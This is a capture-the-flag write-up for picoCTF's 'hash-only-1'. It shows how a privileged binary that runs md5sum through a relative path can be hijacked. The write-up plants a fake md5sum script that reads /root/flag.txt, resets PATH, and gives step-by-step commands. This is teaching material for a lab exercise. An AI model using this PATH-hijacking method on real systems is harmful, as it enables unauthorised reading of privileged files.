

# hash-only-1
Challenge Description:
> Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

CTF: <b>picoCTF</b> (picoGym)<br>Difficulty: <b>Medium</b>

<b>[Jump to solution](#solution)</b>

## Hints
No hints were given by the challenge author, but here's one from me for those looking for a lead.
<details>
<summary>Hint 1</summary>

> How does the shell search for the application you want to run when you type in its name on the command line?
</details>

## Procedure
The flaghasher binary on the remote machine works just as advertised - it seems to compute the md5 hash of the flag and print out the result.
```
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt.... 

2027d8854463a278ea02a925cf352b61  /root/flag.txt
```
Although md5 is a weak hashing algorithm, it's still a hashing algorithm so it's too difficult to attempt to reverse the flag from the hash alone (and there are infinitely many false-positive collisions). Let's download the binary and open it in gdb to see how the md5 sum is being calculated.
> 

By placing a breakpoint at *main+181 (where a call to system is made), we can see that it runs a command `/bin/bash -c md5sum /root/flag.txt`. It should be observed that `md5sum` is run with no absolute or relative path specification, meaning the shell will search for the application `md5sum` in the directories listed in our PATH environment variable.

> Note: You can also run `ltrace` on the flaghasher binary to discover the system call.

This means we can simply craft our own malicious `md5sum` application in our home directory, and set our `PATH` variable to only have our home directory. This way, any call to `md5sum` will run our md5sum application.
```
ctf-player@pico-chall$ cat << exit > md5sum
> #!/bin/bash
> /bin/cat /root/flag.txt
> exit
ctf-player@pico-chall$ export PATH=.
ctf-player@pico-chall$ /bin/chmod 777 md5sum
ctf-player@pico-chall$ flaghasher
Computing the MD5 hash of /root/flag.txt.... 

hammy{u win - hammy}ctf-player@pico-chall$
```

## Solution
1. Write a shell script named `md5sum` in the current directory that prints the contents of `/root/flag.txt`. This can be done by running `cat << exit > md5sum` and writing the shell script as shown in the procedure above, exiting by entering `exit` on the last line.
    - Note: Make sure you use absolute paths in your shell script, because you will be overwriting the `PATH` environment variable shortly.
2. Set your custom `md5sum` script to be executable by running `/bin/chmod 777 md5sum`.
3. Overwrite the `PATH` environment variable to only contain the current directory by running `export PATH=.`
4. Run flaghasher in the directory your custom `md5sum` script is in.

## Key Takeaways
1. When a text editor like `vim` isn't available, you can use the `cat` command to simulate a (bad) text editor.
2. When playing around with `PATH`, make sure to use absolute paths in everything else you do.